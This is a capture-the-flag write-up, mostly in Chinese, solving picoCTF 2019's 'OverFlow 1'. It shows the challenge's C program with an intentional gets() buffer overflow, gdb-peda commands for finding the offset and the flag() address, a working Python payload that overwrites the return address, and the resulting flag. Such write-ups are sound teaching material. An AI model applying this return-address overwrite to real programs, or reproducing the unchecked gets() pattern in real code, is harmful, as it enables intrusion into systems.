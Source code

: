 ## OverFlow 1
### 題目:
>You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program?




## 思路:
這題的bufsize只有64byte，然而在get的時候沒有設限制，假如取超過64byte就會溢位，於是我們用這個漏洞然後的跳到flag的位置
```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}

```


## 解法:
>分兩部分執行，找到偏移量，和flag的記憶體位置。
>找到flag 的位置在 0x80485e6
```console
gdb-peda$ print flag
$2 = {<text variable, no debug info>} 0x80485e6 <flag>

```
利用gdb-peda的pattern印出隨便的字串 再用crashoff印出偏移量
```console
gdb-peda$ pattern create 100
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
gdb-peda$ r
Starting program: /root/Desktop/overflow1/vuln 
Give me a string and lets see what happens: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
gdb-peda$ crashoff
0x41344141 found at offset: 76

```
最後將偏移量放好再加上flag的記憶體位置，這邊要注意由於是Little Endian因此我們要將記憶體位置倒過來
```console
runmdy@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ python -c "print 'a'*76+'\xe6\x85\x04\x08'" | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}Segmentation fault (core dumped)
```
python -c "print 'a'*76+'\xe6\x85\x04\x08'" | ./vuln
## flag:
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}